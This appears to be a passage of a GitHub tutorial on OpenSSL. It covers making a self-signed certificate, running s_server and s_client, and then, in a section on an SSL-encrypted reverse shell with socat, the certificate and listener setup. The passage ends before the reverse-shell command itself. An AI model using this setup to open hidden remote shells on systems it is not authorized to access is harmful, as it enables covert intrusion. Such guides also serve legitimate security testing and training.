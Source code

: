 
## 2. Secure-Connection With OpenSSL Only 

1. Generate a self-signed SSL certificate:

```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

- This command generates a `self-signed SSL certificate` and `private key`. The `-newkey rsa:2048` option specifies that the key should be a `2048-bit RSA key`. The `-nodes` option specifies that the `private key should not be encrypted`. The `-x509 option specifies that the certificate should be a self-signed X.509 certificate`. The `-days 365` option specifies the `validity period of the certificate in days`. The `-out cert.pem` option specifies the `output file for the certificate`, and the `-keyout key.pem` option specifies the `output file for the private key`.


2. Create SSL/TLS server that listens for incoming connections on port 443 using the private key and certificate specified. 

```
openssl s_server  -key key.pem -cert cert.pem -port 443
```

3. connects to an SSL/TLS server running on the local machine at `port 443 `using the OpenSSL `s_client` tool. The IP address `127.0.0.1`

```
openssl s_client -connect 127.0.0.1:443
```


## 3. Secure-ReverseShell With Socat & OpenSSL


You can use OpenSSL and socat together to create a reverse shell that uses SSL encryption to secure the connection. Here's an example of how to set up a reverse shell using OpenSSL and socat:

1. Generate a self-signed SSL certificate and private key:

```
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

- This command generates a `self-signed SSL certificate` and `private key`. The `-newkey rsa:2048` option specifies that the key should be a `2048-bit RSA key`. The `-nodes` option specifies that the `private key should not be encrypted`. The `-x509 option specifies that the certificate should be a self-signed X.509 certificate`. The `-days 365` option specifies the `validity period of the certificate in days`. The `-out cert.pem` option specifies the `output file for the certificate`, and the `-keyout key.pem` option specifies the `output file for the private key`.

2. Start a openssl listener on your machine:

```
openssl s_server  -key key.pem -cert cert.pem -port 443
```
- `openssl s_server` command starts a generic SSL/TLS server, and the options you specified `(-key key.pem -cert cert.pem -port 443)` specify the key and certificate files to use for the SSL/TLS connection and the port number to listen on.
